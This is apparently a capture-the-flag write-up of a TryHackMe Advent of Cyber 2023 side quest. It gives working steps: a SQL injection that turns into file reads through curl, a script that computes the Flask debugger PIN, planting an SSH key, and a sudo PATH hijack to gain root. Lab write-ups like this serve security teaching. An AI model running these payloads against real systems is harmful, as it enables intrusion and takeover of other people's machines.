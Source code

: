 ```yaml
---
categories:
- Web
date: "2023-12-27"
title: "Write-up of SideQuest 4 (TryHackMe Advent of Cyber 2023)"
description: "Write-up of the SideQuest 4 of TryHackMe Advent of Cyber 2023."
keywords: ["surfingyetiiscomingtotown", "Flask", "PIN", "code", "sqli", "pycurl", "sudo", "bashrc"]
---
```


After completing day 20 of Advent of Cyber 2023, we notice a QRCode inside one of the calendar PNG image inside the Git repository.
The QRCode links to <https://tryhackme.com/room/surfingyetiiscomingtotown>.

## Step 1: SQL injection into server-side request forgery

After starting this new machine (at `10.10.190.103` in this write-up), we discover a web server on port 8000.
This web service offers to download 3 SVG files.
The service seems to use a server-side code to hint to the browser that it should download a file.
Usually this is done using HTML `download` attributes, so there is something off.
For example, the first image links to <http://10.10.190.103:8000/download?id=1>.

This URL has a user-controllable parameter `id`. Let's try to set `id='`:
<http://10.10.190.103:8000/download?id='>.
The server answers with a server-side HTTP error 500 displaying the **Flask debugger**.
This debug page contains a MySQL exception, **some source code context** for the
exception and **an interactive Python console**.
To use the interactive Python console **we need a PIN-code**,
usually given in the Flask command-line output.

Use the source code context, we are able to retrieve the SQL query:
```python
query = "SELECT url FROM elves where url_id = '%s'" % (file_id)
```

Let's try to inject a bad `url`:
`http://10.10.190.103:8000/download?id=1' AND 1=0 UNION ALL SELECT 'http://127.0.0.1:8000/badurl' WHERE ''='`.
We get another exception and the following code extract:
```python
response_buf = BytesIO()
crl = pycurl.Curl()
crl.setopt(crl.URL, filename)
crl.setopt(crl.WRITEDATA, response_buf)
crl.perform()
crl.close()
file_data = response_buf.getvalue()

resp = Response(file_data)
resp.headers['Content-Type'] = 'image/svg+xml'
```
**The server is using Curl to fetch the URL!**

Curl can also fetch local files using the `file://` URL handler.
**We might have a primitive to get files from the server.**
As we know the path of the Python source code from the exception message, let's fetch it:
`http://10.10.190.103:8000/download?id=1' AND 1=0 UNION ALL SELECT 'file:///home/mcskidy/app/app.py' WHERE ''='`.
It works!

## Step 2: retrieving the Flask console PIN-code

Flask debugger can provide an interactive Python console if the user knows the debug PIN-code.
This PIN-code is not random.
There is already an excellent write-up by [vozec on Hackropole](https://hackropole.fr/fr/writeups/fcsc2023-web-tweedle-dum/4724154c-b0e5-49fb-8b61-06a861131b5c/) which explains how to recover the PIN-code.

We need some information to retrieve the PIN-code:

  - the username running the Flask app,
  - the path to `flask/app.py` module,
  - the output of `str(uuid.getnode())`,
  - the output of `get_machine_id()`.

We already know the username `mcskidy` and the path
`/home/mcskidy/.local/lib/python3.8/site-packages/flask/app.py` using previous
debug information.

As we have only a SSRF to fetch files from the server filesystem, let's fetch some files:

  - `http://10.10.190.103:8000/download?id=1' AND 1=0 UNION ALL SELECT 'file:///etc/machine-id' WHERE ''='`

    ```
    aee6189caee449718070b58132f2e4ba
    ```

  - `http://10.10.190.103:8000/download?id=1' AND 1=0 UNION ALL SELECT 'file:///proc/net/dev' WHERE ''='`

    ```
    Inter-|   Receive                                                |  Transmit
     face |bytes    packets errs drop fifo frame compressed multicast|bytes    packets errs drop fifo colls carrier compressed
    eth0:  188249    2299    0    0    0     0          0         0  2584267    2337    0    0    0     0       0          0
      lo:  656834     433    0    0    0     0          0         0   656834     433    0    0    0     0       0          0
    ```

  - `http://10.10.190.103:8000/download?id=1' AND 1=0 UNION ALL SELECT 'file:///sys/class/net/eth0/address' WHERE ''='`

    ```
    02:4b:aa:22:06:69
    ```

Using these information, we now know that `uuid.getnode() = 0x024baa220669`
and `get_machine_id() = b"aee6189caee449718070b58132f2e4ba"`.

We now remix Vozec script:
```python
import hashlib
from itertools import chain

probably_public_bits = [
    "mcskidy",
    "flask.app",
    "Flask",
    "/home/mcskidy/.local/lib/python3.8/site-packages/flask/app.py",
]

private_bits = [
    str(0x024BAA220669),
    b"aee6189caee449718070b58132f2e4ba",
]

num = None
rv = None

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)
```

Executing the script yields the PIN-code `811-299-197`.
We enter the PIN-code at <http://10.10.190.103:8000/console> and **we now have a working Python console!**

## Step 3: user takeover

Let's use the Flask Python console to add our SSH key to `mcskidy` user:
```python
import subprocess
subprocess.check_output("echo 'ssh-ed25519 <REDACTED>' >> /home/mcskidy/.ssh/authorized_keys", shell=True)
```

We can now `ssh mcskidy@10.10.190.103`.
**There is a first flag inside `mcskidy` home directory!**

Using `find -mtime` option, we notice that there is a git repository inside `/home/mcskidy/app/`.
Looking at the Git history reveals some secrets:
```diff
mcskidy@proddb:~/app$ git show HEAD~2
commit c1a0b22905cc0da0b5ad88c124125efa626013af
Author: mcskidy <mcskidy@proddb>
Date:   Thu Oct 19 20:02:57 2023 +0000

    Minor update

diff --git a/app.py b/app.py
index 8d05622..5765c7d 100644
--- a/app.py
+++ b/app.py
@@ -10,7 +10,7 @@ app = Flask(__name__, static_url_path='/static')
 # MySQL configuration
 app.config['MYSQL_HOST'] = 'localhost'
 app.config['MYSQL_USER'] = 'mcskidy'
-app.config['MYSQL_PASSWORD'] = 'F453TgvhALjZ'
+app.config['MYSQL_PASSWORD'] = 'fSXT8582GcMLmSt6'
 app.config['MYSQL_DB'] = 'elfimages'
 mysql = MySQL(app)
```

We try these secrets with `sudo -l`.

```
$ sudo -l
[sudo] password for mcskidy:
Matching Defaults entries for mcskidy on proddb:
    env_reset, mail_badpass, secure_path=/home/mcskidy\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mcskidy may run the following commands on proddb:
    (root) /usr/bin/bash /opt/check.sh
```

**`F453TgvhALjZ` is `mcskidy` user password!**

## Step 4: admin takeover

`sudo -l` configuration definitely does not look like the default Debian
configuration. There might be a way to takeover the admin account.

We read the script at `/opt/check.sh`.
This script starts by sourcing `/opt/.bashrc` which itself starts by disabling
the `[` Bash built-in:
```bash
enable -n [ # ]
```
This means that `[` in Bash scripts now refers to `/usr/bin/[`.

We notice that sudo `secure_path` allows to add `/home/mcskidy` to the `PATH`
environment variable.

We create `/home/mcskidy/[` script with a payload that adds our SSH key to
`/root/.ssh/authorized_keys`.
Then:
```
mcskidy@proddb:/opt$ export PATH=/home/mcskidy:$PATH
mcskidy@proddb:/opt$ sudo /usr/bin/bash /opt/check.sh
```

We can now login as root:
```
$ ssh root@10.10.152.209
Last login: Wed Dec 13 18:11:57 2023 from 10.13.4.71
root@proddb:~# l
frosteau/  root.txt  snap/  yetikey4.txt
root@proddb:~# cat root.txt yetikey4.txt
THM{BaNDiT_YeTi_Lik3s_PATH_HijacKing}
4-3f$FEBwD6AoqnyLjJ!!Hk4tc*V6w$UuK#evLWkBp
```

*Voilà!*
